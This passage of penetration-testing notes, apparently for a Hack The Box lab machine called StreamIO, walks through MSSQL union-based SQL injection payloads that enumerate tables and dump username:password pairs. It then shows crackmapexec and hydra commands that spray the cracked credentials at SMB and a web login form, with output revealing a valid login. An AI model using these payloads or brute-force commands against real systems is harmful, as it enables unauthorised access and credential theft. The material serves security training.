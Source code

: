 * https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-list-databases
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-union-based
* https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

```sql
abcd' union select 1,name,3,4,5,6 from master..sysdatabases;-- 
abcd' union select 1,name,3,4,5,6 from STREAMIO..sysobjects WHERE xtype = 'U';-- 
abcd' union select 1,STRING_AGG(name, ', '),3,4,5,6 from STREAMIO..sysobjects WHERE xtype = 'U';-- 

movies
users

abcd' union select 1,name,3,4,5,6 from syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users');-- 

username
password

abcd' union select 1, concat(username,':',password) ,3,4,5,6 from users--

Got the crackedpass.txt
```

### Brute force the web
* https://0xdf.gitlab.io/2022/09/17/htb-streamio.html#check-passwords

```bash
cat crackedpass.txt | cut -d: -f1 > user
cat crackedpass.txt | cut -d: -f3 > pass
cat crackedpass.txt | cut -d: -f1,3 > userpass

crackmapexec smb $IP -u user -p pass --no-bruteforce --continue-on-success
SMB         10.129.63.50    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False) 
SMB         10.129.63.50    445    DC               [-] streamIO.htb\yoshihide:66boysandgirls.. STATUS_LOGON_FAILURE
```

I’ll use the `https-post-form` plugin, which takes a string formatted as `[page to post to]:[post body]:F=[string that indicates failed login]`. It finds one that works:

```bash
hydra -C userpass streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=failed"
# Both works fine
hydra -L user -P pass streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"

[443][http-post-form] host: streamio.htb   login: yoshihide   password: 66boysandgirls..
```

### Fuzz web admin parameters
Both wfuzz and ffuf works fine
